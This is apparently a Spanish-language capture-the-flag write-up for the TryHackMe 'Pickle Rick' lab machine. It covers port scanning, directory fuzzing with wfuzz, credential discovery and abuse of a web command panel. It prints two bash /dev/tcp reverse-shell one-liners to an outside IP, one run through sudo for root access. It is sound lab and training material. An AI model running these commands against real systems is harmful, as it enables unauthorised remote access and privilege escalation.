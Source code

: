 ```yaml
---
title : Maquina [ Pickle Rick ]
published : True
---
```



<p>Maquina a vulnerar Pickle Rick</p>
> Url : <a href="https://tryhackme.com/room/picklerick"> Pickle Rick </a>
<p></p>

<h2><font color="white"><center># pickleRick</center></font></h2>
<p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
<p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina Linux, ahora veremos que puertos están abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
<p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el código del html de el puerto 80, me topo que en el código hay un usuario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
<p>Ahora lo que haré sera enumerar directorios activos en la pagina web, con la herramienta <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
<p></p>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
<p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
<p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
<p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecución remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
<p></p>
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
<p>Lo cual me aprovecho de la ejecución remota de comando para hacerme una web Shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
<p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
<p></p>
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
<p>Entonces me hago una reverse Shell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
<p></p>
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
<p>Ok maquina <font color="red">Vulnerada</font></p>
